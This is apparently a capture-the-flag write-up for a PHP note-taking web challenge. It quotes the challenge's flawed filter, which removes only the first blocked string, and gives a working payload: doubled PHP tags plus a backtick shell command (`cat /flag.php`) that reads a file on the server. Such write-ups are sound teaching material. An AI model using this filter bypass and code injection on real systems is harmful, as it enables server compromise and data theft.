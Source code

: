 # ProgrammersHateProgramming - Web challenge

When opening the provided web page, we see an input field to create new notes and 2 pre-defined notes.
We were given the source code which reveals, that for every incoming POST request with a `notewrite` data field, the application (written in php) creates a new file with the contents of the note.
At first there are some filters applied though, which hint to injecting either javascript via a XSS or injecting server-side
rendered php, which makes a lot more sense, since there is no bot visiting our notes.



```php
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
The source code pretty obviously reveals, that only the first instance of the blocked strings are actually replaced with an empty string, so we can just put everything twice in the payload!

I then intercepted the POST request using [burpsuite](https://portswigger.net/burp/communitydownload) and added my payload into the notewrite data-field

**Payload**
```
notewrite=<?php+<?php
// flag
echo+`cat /flag.php`
?>+?>
```

The comment with just `flag` gets removed which causes the actually used flag to stay. 
For the ones not familiar with php, the backticks (\`\`) execute the string using the shell and return the output.
(Don't forget to url-encode your exploit using `CTR+U` in burpsuite!)
Then send the post request and visit the newly created note to see the *flag*!
